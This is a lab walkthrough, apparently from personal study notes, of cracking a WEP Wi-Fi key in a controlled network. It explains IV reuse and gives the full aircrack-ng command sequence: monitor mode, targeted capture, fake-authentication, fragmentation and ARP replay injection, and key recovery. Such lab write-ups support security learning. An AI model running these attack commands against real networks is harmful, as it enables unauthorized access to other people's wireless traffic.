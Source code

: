 
> [!info]
> This was performed on a controlled network, meaning everything performed was both legal and ethical.

This walkthrough does not contain in-depth explanations of every tool used.  For references to the tools used, see my [Wireless Cheatsheet](../Tools/Wireless%20Cheatsheet.md).

## Overview
---
WEP (Wired Equivalent Privacy) is an outdated and insecure wireless network security protocol that was was introduced as a standard early on in Wi-Fi's lifecycle, but has since been deprecated and replaced by more secure methods.

Like WPA2-PSK, WEP uses a single shared key for authentication.  However, it uses much weaker encryption and relies on small Initialization Vectors (IVs) to be combined with the secret key in order to encrypt data that’s about to be transmitted. Because the IV's are only 24-bit (which is quite small) they end up being re-used with the same key, and since IV keys are transferred with the data in plaintext so that the receiving party is able to decrypt the communication, an attacker can capture these IVs.

By capturing enough repeating IVs, an attacker can easily crack the WEP secret key because they’re able to make sense of the encrypted data, and they’re able to decrypt the secret key.

## Generating & Capturing IVs
---

```bash
# View Current WiFi Driver
sudo airmon-ng
# Create Monitor Interface
sudo airmon-ng start <interface>
```

![[Pasted image 20231015005332.png]]

With the monitor interface configured, next I began sniffing the network to find what networks are available.

```shell
# See available networks/channels/security
sudo airodump-ng <mon_interface>
```
*(In this case, my monitor interface is wlan0mon)*

![[Pasted image 20231015162527.png]]

This revealed the SSID of the WEP network, that it's on channel 3, and that the MAC address is "02:13:37:BE:EF:03".

With this knowledge, I restarted my "airodump" listener, refining it to focus specifically on the target network.

```shell
# Capture wireless traffic to a file
sudo airodump-ng --bssid "02:13:37:BE:EF:03" -c 3 --write "<network_ssid>" wlan0mon
```
*(By specifying '--write', all traffic will be dumped into a file we can reference later.)*

With my listener capturing network traffic, I needed to collect a large enough quantity of network initialization vectors (IVs) to crack the passphrase.  To do this, I performed a handful of replay attacks on the network.  The below screenshot shows approximately 30 IVs -- in order to crack the network key, I ideally wanted to get this number well into the thousands.  

![[Pasted image 20231015162618.png]]

The attacks I utilized to increase IV quantity during this scenario were:
- Fake Authentication Attack
- Fragmentation Attack
- ARP Request Replay Attack

```shell
# Fake Authentication Attack with monitor interface MAC
sudo aireplay-ng --fakeauth 0 -a "02:13:37:BE:EF:03" -h "20:00:00:00:00:00" wlan0mon

# Fragmentation Attack with monitor interface MAC
sudo aireplay-ng --fragment -b "02:13:37:BE:EF:03" -h "20:00:00:00:00:00" wlan0mon

# ARP Request Replay Attack with authenticated client MAC
sudo aireplay-ng --arpreplay -b "02:13:37:BE:EF:03" -h "20:00:00:00:03:00" wlan0mon
```

![[Pasted image 20231015163034.png]]
![[Pasted image 20231015163058.png]]

After some time, I eventually got the IV count to near 100,000.  This was more than enough to crack the network key.

![[Pasted image 20231015163215.png]]

## Cracking the Passphrase
---

To crack the key, I utilized "aircrack-ng" and pointed it to my network capture file containing all the IV's in order to conduct a WEP key attack.

```shell
# WEP Key Attack
sudo aircrack-ng ./<network_ssid>-01.cap
```

![[Pasted image 20230428023356.png]]

```
# Network Key
2E:2C:F0:E3:FF
```
